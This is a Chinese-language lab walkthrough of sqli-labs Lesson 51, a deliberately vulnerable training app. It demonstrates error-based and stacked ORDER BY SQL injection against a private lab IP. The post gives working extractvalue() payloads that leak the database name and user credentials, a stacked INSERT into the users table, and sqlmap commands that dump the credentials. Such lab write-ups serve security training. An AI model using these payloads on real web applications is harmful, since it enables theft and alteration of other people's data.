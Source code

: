 ```yaml
---
title: sqli-labs lession-51-GET 基于错误-字符型堆叠注入-OrderBy注入
date: 2018-11-19 09:04:44
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-51-GET 基于错误-字符型堆叠注入-OrderBy注入

---

## 登录界面

![001](/img/sql/Lesson-51/001.png)

## 注入

### 判断类型

输入单引号报错

![002](/img/sql/Lesson-51/002.png)

通过报错可以判断单引号闭合。

### 获取数据库

`http://10.60.17.35:8082/Less-51/?sort=1'+and+extractvalue(null,concat(0x7e,database(),0x7e))%23`

![003](/img/sql/Lesson-51/003.png)

### 获取字段

中间过程和上一课一样,直接省略

{% post_link sqli-labs-lession-50-GET-基于错误-数字型堆叠注入-OrderBy注入  点击查看Lesson-50%}

`http://10.60.17.35:8082/Less-51/?sort=1'+and+extractvalue(null,concat(0x7e,(select concat(0x7e,username,0x7e,password)from security.users limit 0,1),0x7e))%23`

![004](/img/sql/Lesson-51/004.png)

## 堆叠注入

`http://10.60.17.35:8082/Less-51/?sort=1';insert into users(id,username,password)values(101,'huai1','dan2')%23`

![005](/img/sql/Lesson-51/005.png)

## SQLMAP

`sqlmap -u http://10.60.17.35:8082/Less-51/?sort=1 --technique E --dbms mysql `

![006](/img/sql/Lesson-51/006.png)

![007](/img/sql/Lesson-51/007.png)

`sqlmap -u http://10.60.17.35:8082/Less-51/?sort=1 --technique E --dbms mysql -D security -T users -C username,password --dump --threads 20`

![008](/img/sql/Lesson-51/008.png)

![009](/img/sql/Lesson-51/009.png)

